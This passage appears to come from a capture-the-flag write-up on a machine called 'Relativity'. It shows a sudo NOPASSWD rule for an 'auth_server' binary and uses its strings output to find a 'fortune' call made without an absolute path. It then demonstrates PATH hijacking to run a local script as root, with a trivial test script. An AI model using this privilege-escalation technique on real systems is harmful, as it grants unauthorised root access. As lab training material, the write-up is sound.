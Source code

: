 ```bash
    (root) NOPASSWD: /home/jetta/auth_server/auth_server
```

The binary seems to be executing some certificates checks and output a message through `cowsay`.

We see that we can run the `auth_server` binary as `root` without providing any password:

```bash
sudo ./auth_server
```

Moreover:

```bash
[jetta@Relativity auth_server]$ strings auth_server
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
fflush
puts
putchar
printf
poll
stdout
system
__libc_start_main
GLIBC_2.2.5
l$ L
t$(L
|$0H
[+] Checking Certificates...
done
[+] Contacting server, please wait...
could not establish connection
invalid certificates
error: (12)
fortune -s | /usr/bin/cowsay
Starting Auth server..
;*3$"
```

We can see that the call for `fortune` is not absolute path, so we can change the binary by modifying the path:


We can change the path to use the "local" fortune script this way:

```bash
PATH=/home/jetta:$PATH ./auth_server
```

Now we can create a POC to test if the `fortune` override works:

```python
#!/usr/bin/python
print 'a'
```

